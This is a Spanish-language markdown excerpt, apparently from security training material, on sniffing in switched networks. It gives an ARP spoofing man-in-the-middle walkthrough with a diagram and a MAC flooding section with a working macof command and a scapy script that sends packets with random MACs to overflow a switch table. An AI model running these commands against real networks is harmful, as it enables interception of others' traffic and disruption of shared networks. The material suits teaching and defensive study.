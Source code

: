 ## Técnicas de Sniffing

### Sniffing en Redes Conmutadas

#### ARP Spoofing para Sniffing
```
ARP Spoofing Attack Flow:
1. Atacante descubre hosts activos en la red
2. Envía ARP replies falsificadas
   - A víctima: "Gateway MAC = Atacante MAC"
   - A gateway: "Víctima MAC = Atacante MAC"
3. Tráfico de víctima pasa por atacante
4. Atacante captura y reenvía paquetes
5. Sniffing transparente del tráfico

Implementación:
┌─────────────┐    ARP: 192.168.1.1 is at    ┌─────────────┐
│   Víctima   │ ←─────── AA:BB:CC:DD:EE:FF ─── │  Atacante   │
│192.168.1.10 │                               │192.168.1.100│
└─────────────┘    ARP: 192.168.1.10 is at   └─────────────┘
       │           ─────── AA:BB:CC:DD:EE:FF ──────┐
       │                                           │
       ▼                                           ▼
┌─────────────┐                               ┌─────────────┐
│   Gateway   │ ←──── All traffic routed ────→│  Atacante   │
│ 192.168.1.1 │        through attacker       │(Man-in-Middle)
└─────────────┘                               └─────────────┘
```

#### MAC Flooding Attack
```
MAC Table Flooding Process:
1. Atacante genera miles de paquetes con MACs aleatorias
2. Switch aprende todas las MACs falsas
3. MAC address table se llena completamente
4. Switch entra en "failopen mode"
5. Actúa como hub, enviando tráfico a todos los puertos

Implementación con macof:
#!/bin/bash
# MAC flooding script
macof -i eth0 -n 1000000

# Custom MAC flooding with scapy
python3 -c "
from scapy.all import *
import random

def mac_flood():
    for i in range(10000):
        mac_src = ':'.join(['%02x' % random.randint(0,255) for _ in range(6)])
        mac_dst = ':'.join(['%02x' % random.randint(0,255) for _ in range(6)])
        packet = Ether(src=mac_src, dst=mac_dst) / IP(dst='192.168.1.1')
        sendp(packet, iface='eth0', verbose=False)

mac_flood()
"
```
